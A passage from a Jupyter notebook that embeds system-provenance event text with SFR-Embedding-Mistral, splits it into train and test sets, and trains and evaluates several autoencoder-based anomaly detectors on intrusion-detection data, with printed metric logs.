        # Tokenize with strict MAX_SEQ_LENGTH
        batch_dict = tokenizer(
            batch_texts, 
            max_length=MAX_SEQ_LENGTH, 
            padding=True, 
            truncation=True, 
            return_tensors='pt'
        )
        
        # Move inputs to GPU
        batch_dict = {k: v.to(device) for k, v in batch_dict.items()}
        
        with torch.no_grad():
            outputs = model(**batch_dict)
            
            # Pool: Extract embedding from the EOS token we just appended
            embeddings = last_token_pool(outputs.last_hidden_state, batch_dict['attention_mask'])
            
            # Normalize (Critical for Cosine Similarity)
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            # Instantly move to CPU to free up VRAM
            all_embeddings.extend(embeddings.cpu().float().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            # [SPEED FIX] Smart Batching: Sort sentences by length to eliminate padding math
            df['seq_len'] = df['sentence'].astype(str).apply(len)
            df = df.sort_values('seq_len').reset_index(drop=True)
            
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_sfr_embeddings(sentences, model, tokenizer, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            # Drop the temporary length column and append embeddings
            df = df.drop(columns=['seq_len'])
            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            
        finally:
            # [CRITICAL OOM FIX] Force flush the VRAM after every chunk
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_sfr_mistral"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save SFR-Mistral chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_sfr_mistral.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All SFR-Mistral data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

#### train test split

In [4]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your SFR-Mistral generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_sfr_mistral" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_sfr_mistral"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing SFR-Mistral suffixes
    key_name = filename.replace(".pkl", "").replace("_sfr_mistral", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR SFR-MISTRAL!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_sfr_mistral
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_sfr_mistral.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 4096), Test: (2238, 4096)
  ✓ Saved to: final_train_test_split_sfr_mistral\5dir\train\ProcessAll.pkl and final_train_test_split_sfr_mistral\5dir\test\ProcessAll.pkl

Processing: 5dir_ProcessEvent_sfr_mistral.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 4096), Test: (2238, 4096)
  ✓ Saved to: final_train_test_split_sfr_mistral\5dir\train\ProcessEvent.pkl and final_train_test_split_sfr_mistral\5dir\test\ProcessEvent.pkl

Processing: 5dir_ProcessExec_sfr_mistral.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8854, 4096), Test: (2223, 4096)
  ✓ Saved to: final_train_test_split_

#### Training AEs and  saving `.pth` files 

In [2]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for SFR-Mistral
BASE_DIR = "final_train_test_split_sfr_mistral"
RESULTS_FILE = "results_all_autoencoders_sfr_mistral.csv"
MODEL_SAVE_DIR = "saved_weights_sfr_mistral"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] SFR-Embedding-Mistral uses 4096 dimensions (Mistral-7B base)
INPUT_DIM = 4096    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9137 | nDCG: 0.2859 (DCG: 1.2164, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.7856 | nDCG: 0.2868 (DCG: 1.2202, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9508 | nDCG: 0.3788 (DCG: 1.6117, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.9023 | nDCG: 0.2783 (DCG: 1.1839, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.6172 | nDCG: 0.2217 (DCG: 0.9434, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.7412 | nDCG: 0.2469 (DCG: 1.0505, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.829 | nDCG: 0.2918 (DCG: 1.2415, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.8118 | nDCG: 0.2822 (DCG: 1.2007, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9073 | nDCG: 0.2825 (DCG: 1.2018, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9188 | nDCG: 0.2883 (DC

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Deep SVDD... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training DAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Beta-VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.9968 | nDCG: 0.795 (DCG: 16.6463, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.8545 | nDCG: 0.3804 (DCG: 7.9645, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.4999 | nDCG: 0.3378 (DCG: 7.0726, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.9754 | nDCG: 0.5476 (DCG: 11.4664, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.8139 | nDCG: 0.3697 (DCG: 7.7413, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.823 | nDCG: 0.3701 (DCG: 7.7493, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.846 | nDCG: 0.379 (DCG: 7.9358, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.8139 | nDCG: 0.3689 (DCG: 7.7244, IDCG: 20.9387)
    -> Training LST

In [3]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "sfr_mistral" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] Salesforce/SFR-Embedding-Mistral uses 4096 dimensions
INPUT_DIM = 4096 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. DYNAMIC WEIGHT FINDER (Fixes the "Weights Not Found" error)
    mod_name_clean = model_name.replace(' ', '')
    
    # Automatically cleans the context string using the current EMBEDDING_NAME
    base_context = context.replace(f'_{EMBEDDING_NAME}', '') 
    
    matched_weight_file = None
    if os.path.exists(MODEL_SAVE_DIR):
        for f in os.listdir(MODEL_SAVE_DIR):
            # Check if all identifying parts are in the filename, regardless of exact order
            if performer in f and mod_name_clean in f and base_context in f and f.endswith('.pth'):
                matched_weight_file = f
                break
    
    if not matched_weight_file:
        return None # Skip if weights don't exist
        
    weight_path = os.path.join(MODEL_SAVE_DIR, matched_weight_file)
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
